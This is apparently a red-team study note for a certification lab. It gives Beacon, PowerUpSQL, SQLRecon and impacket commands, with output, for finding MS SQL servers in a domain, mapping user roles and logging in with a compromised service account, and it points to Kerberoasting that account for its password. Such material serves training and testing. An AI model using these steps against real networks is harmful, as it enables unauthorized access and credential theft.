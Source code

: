 
#### 🖊️ Using PowerUpSQL

######  Find MS SQL Servers

You can use cmdlets like:

`Get-SQLInstanceDomain`
`Get-SQLInstanceBroadcast`
`Get-SQLInstanceScanUDP`
```
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powershell Get-SQLInstanceDomain
```

Also search for domain groups named like "SQL Admins" for example

######  Get info about the MS SQL Server

 Use `Get-SQLServerInfo` to gather more information about the instance.

`beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"`

######  Test connecting to it

`Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.

`beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl`

⚠ Automate the collection with this:
`beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`


Test access issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL:

`beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"`

❗ For this you may want to first get access to be able to run it, check SQL Recon section

#### 📔 Using SQL Recon

SQL Recon enumerates servers via SPNs and fetch information about the instance with the `info` module.

######  Find MS SQL Servers

`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns`

######  Get info about the MS SQL Server

`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info`
```
[*] Extracting SQL Server information from sql-2.dev.cyberbotic.io

 |-> ComputerName:           SQL-2
 |-> DomainName:             DEV
 |-> ServicePid:             4388
 |-> ServiceName:            MSSQLSERVER
 |-> ServiceAccount:         DEV\mssql_svc
 |-> AuthenticationMode:     Windows Authentication
 |-> ForcedEncryption:       0
 |-> Clustered:              No
 |-> SqlServerVersionNumber: 15.0.2000.5
 |-> SqlServerMajorVersion:  2019
 |-> SqlServerEdition:       Standard Edition (64-bit)
 |-> SqlServerServicePack:   RTM
 |-> OsArchitecture:         X64
 |-> OsVersionNumber:        2022
 |-> CurrentLogin:           DEV\bfarmer
 |-> IsSysAdmin:             No
 |-> ActiveSessions:         1
```

In this example, the `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.  This output shows that whilst the database is accessible, our current user, bfarmer, is not a sysadmin.  

Also we can see that `DEV\mssql_svc` is running the service. 

######  Find Your Roles and Members

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\bfarmer
[*] Mapped to the user guest
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is NOT a member of sysadmin role.
 |-> User is NOT a member of setupadmin role.
 |-> User is NOT a member of serveradmin role.
 |-> User is NOT a member of securityadmin role.
 |-> User is NOT a member of processadmin role.
 |-> User is NOT a member of diskadmin role.
 |-> User is NOT a member of dbcreator role.
 |-> User is NOT a member of bulkadmin role.
```

Look for other people that might have better access:

`beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }`

Also try attacking the account that is running the service (mssql_svc in this example), via something like [[Kerberoasting]] , this way you will obtain the plaintext password. 

######  Use your findings

 The credentials can be used with `make_token` in Beacon and `/a:WinToken` in SQLRecon; or the `/a:WinDomain` option with `/d:<domain> /u:<username> /p:<password>` in SQLRecon directly.

Checking permissions with the pwned account:
`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami`

❗ Once you have access permission, you can start querying the DB (either with powerupsql or sqlrecon), for example:

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"

[*] Executing 'select @@servername' on sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-2 |
```

Or mssqlclient.py from impacket:

`ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25`

Or even [HeidiSQL](https://www.heidisql.com/) via Proxifier with a GUI access.



#### ⚠ Opsec




### Properties
---
📆 created   {{21-02-2024}} 12:45
🏷️ tags: #redteam #crto 

---

